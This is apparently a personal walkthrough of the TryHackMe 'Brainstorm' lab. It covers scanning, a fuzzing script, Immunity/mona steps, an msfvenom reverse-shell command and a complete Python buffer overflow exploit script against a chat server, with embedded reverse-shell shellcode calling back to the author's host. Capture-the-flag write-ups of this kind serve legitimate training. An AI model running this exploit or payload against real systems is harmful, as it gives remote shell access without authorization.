*2021-09-05*

*kimm3*

# Walkthrough: Brainstorm
Platform: TryHackMe

Difficulty: Medium

- [Link](https://tryhackme.com/room/brainstorm)

## Setup


```
script history/enum1
export IP=10.10.43.64
```

No response of ping.
## Scans and enumeration
`sudo nmap $IP -p- -A -Pn -v -oA scans/nmap-init `



FTP, rdp and some kind of chat server. FTP accepts anonymous user so let's start there.





RDP server needs a domain name and password.



I copied the files over to a windows VM and started the chatserver.exe, it's the same as the one running on the machine, let's check for bof vulnerabilities.


## Buffer overflow on chatserver
### Fuzzing options
We have two options, username and chat message.



I'm using the following scripts from the [buffer overflow prep](https://boxdocs.kimgard.com/wt-bufferoverflowprep-pub/wt-bufferoverflowprep.html#setup) writeup.



The username seems to be clipped at 20 characters, no go.

To work with username input, this is my fuzz script.

```python3
#!/usr/bin/python3

import sys, time, socket

# Target values
ip = "192.168.10.3"
port = 9999
cmd = ""

# Array of increasing values
buffer = []
size = 100
inc_value = 100
iterations = 100

for i in range(0, iterations):
    buffer.append("A" * size)
    size += inc_value

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(3)
        s.connect((ip, port))
        print(s.recv(1024).decode())
        s.send("test\r\n".encode())
        print(s.recv(1024).decode())

        sendbuff = cmd + string + "\r\n"
        s.send(sendbuff.encode())

        print(s.recv(1024).decode() + "size: " + str(len(string)))
        s.close()
    except:
        print("no connection")
        print("Last string size sent was " + str(len(string)))
        sys.exit(0)
    time.sleep(1)

```




Seems to be working. Generated a pattern with 'pattern-create.rb' and sent as message.



Found the offset with 'pattern_offset.rb' and the EIP value.





Offset is 2012.

Checking for bad characters.



```
!mona bytearray -b "\x00"
!mona compare -f "C:\Program Files (x86)\Immunity Inc\Immunity Debugger\bytearray.bin" -a 0060FA38
```



Looks good, let's find a jmp command and generate shellcode.

`!mona jmp -r esp -cpb "\x00"`



9 pointers found. Generating payload:

`msfvenom -p windows/shell_reverse_tcp LHOST=10.8.210.115 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00"`

Testing exploit on my own VM:



Seems to be working on my test machine, let's hope that target has same arch and OS.
## Exploit
Worked.





### Exploit script
```python3
#!/usr/bin/python3

import socket, sys

# socket values
ip = "10.10.43.64"
port = 9999

# sendbuff values
cmd = ""
offset = 2012
overflow = "A" * offset
eip_val = "\xdf\x14\x50\x62"
nops = "\x90" * 16
payload = ("\xba\xc0\xef\x70\x0e\xdd\xc4\xd9\x74\x24\xf4\x5d\x33\xc9\xb1"
"\x52\x31\x55\x12\x83\xc5\x04\x03\x95\xe1\x92\xfb\xe9\x16\xd0"
"\x04\x11\xe7\xb5\x8d\xf4\xd6\xf5\xea\x7d\x48\xc6\x79\xd3\x65"
"\xad\x2c\xc7\xfe\xc3\xf8\xe8\xb7\x6e\xdf\xc7\x48\xc2\x23\x46"
"\xcb\x19\x70\xa8\xf2\xd1\x85\xa9\x33\x0f\x67\xfb\xec\x5b\xda"
"\xeb\x99\x16\xe7\x80\xd2\xb7\x6f\x75\xa2\xb6\x5e\x28\xb8\xe0"
"\x40\xcb\x6d\x99\xc8\xd3\x72\xa4\x83\x68\x40\x52\x12\xb8\x98"
"\x9b\xb9\x85\x14\x6e\xc3\xc2\x93\x91\xb6\x3a\xe0\x2c\xc1\xf9"
"\x9a\xea\x44\x19\x3c\x78\xfe\xc5\xbc\xad\x99\x8e\xb3\x1a\xed"
"\xc8\xd7\x9d\x22\x63\xe3\x16\xc5\xa3\x65\x6c\xe2\x67\x2d\x36"
"\x8b\x3e\x8b\x99\xb4\x20\x74\x45\x11\x2b\x99\x92\x28\x76\xf6"
"\x57\x01\x88\x06\xf0\x12\xfb\x34\x5f\x89\x93\x74\x28\x17\x64"
"\x7a\x03\xef\xfa\x85\xac\x10\xd3\x41\xf8\x40\x4b\x63\x81\x0a"
"\x8b\x8c\x54\x9c\xdb\x22\x07\x5d\x8b\x82\xf7\x35\xc1\x0c\x27"
"\x25\xea\xc6\x40\xcc\x11\x81\x64\x19\xcb\x22\x11\x1b\xeb\xc5"
"\x5a\x92\x0d\xaf\x8c\xf3\x86\x58\x34\x5e\x5c\xf8\xb9\x74\x19"
"\x3a\x31\x7b\xde\xf5\xb2\xf6\xcc\x62\x33\x4d\xae\x25\x4c\x7b"
"\xc6\xaa\xdf\xe0\x16\xa4\xc3\xbe\x41\xe1\x32\xb7\x07\x1f\x6c"
"\x61\x35\xe2\xe8\x4a\xfd\x39\xc9\x55\xfc\xcc\x75\x72\xee\x08"
"\x75\x3e\x5a\xc5\x20\xe8\x34\xa3\x9a\x5a\xee\x7d\x70\x35\x66"
"\xfb\xba\x86\xf0\x04\x97\x70\x1c\xb4\x4e\xc5\x23\x79\x07\xc1"
"\x5c\x67\xb7\x2e\xb7\x23\xd7\xcc\x1d\x5e\x70\x49\xf4\xe3\x1d"
"\x6a\x23\x27\x18\xe9\xc1\xd8\xdf\xf1\xa0\xdd\xa4\xb5\x59\xac"
"\xb5\x53\x5d\x03\xb5\x71")
post = "\r\n"

sendbuffer = cmd + overflow + eip_val + nops + payload + post

# Connect to service
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.settimeout(5)
try:
    s.connect((ip, port))
except:
    print("no connection")
    sys.exit(0)

# Receive banner
buff = s.recv(1024)
while buff:
    print(buff.decode())
    try:
        buff = s.recv(1024)
    except:
        break;

# Enter username
s.send(input().encode("latin1"))

# Receive text
buff = s.recv(1024)
while buff:
    print(buff.decode())
    try:
        buff = s.recv(1024)
    except:
        break;

# Send payload
input("press enter to send payload")
s.send(sendbuffer.encode('latin1'))
```
